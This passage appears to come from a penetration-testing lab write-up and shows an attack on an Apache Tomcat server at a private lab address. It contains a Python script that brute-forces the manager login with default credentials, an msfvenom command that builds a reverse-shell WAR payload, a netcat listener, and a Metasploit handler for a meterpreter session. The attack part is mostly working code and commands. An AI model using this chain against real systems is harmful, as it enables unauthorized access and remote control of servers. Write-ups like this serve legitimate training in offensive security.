 [https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown)

let's use the list and save it inside creds.txt with a python script to bruteforce:

```python
import requests
from requests.auth import HTTPBasicAuth


url = 'http://172.16.64.101:8080/manager'

with open('creds.txt', 'r') as f:
    for line in f:
        cred = line.split()
        if cred[0] == '<blank>':
            response = requests.get(url, auth=HTTPBasicAuth('', cred[1]))
        if cred[1] == '<blank>':
            response = requests.get(url, auth=HTTPBasicAuth(cred[0], ''))
        response = requests.get(url, auth=HTTPBasicAuth(cred[0], cred[1]))

        if response.status_code == 200:
            print("[+] Found: ", cred)
            break
        else:
            print("[-] NOT Found: ", cred)
```

from it we got the following:

```c
[+] Found: tomcat s3cret
```

after log-in we notice that we can deploy fils, time to exploit by deploying a webshell, as it's a tomcat we will use a .war formate build one by:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=8080 -f war -o revshell.war
```

start the webshell then visit it : [http://172.16.64.101:8080/revshell/](http://172.16.64.101:8080/revshell/) listen to it:

```bash
nc -lvnp 8080 
```

another way is to use metasploite:

```bash
 use exploit/multi/handler 
 set payload linux/x64/meterpreter_reverse_tcp 
 set lhost <ip>
 set lport 9080 
 run
```
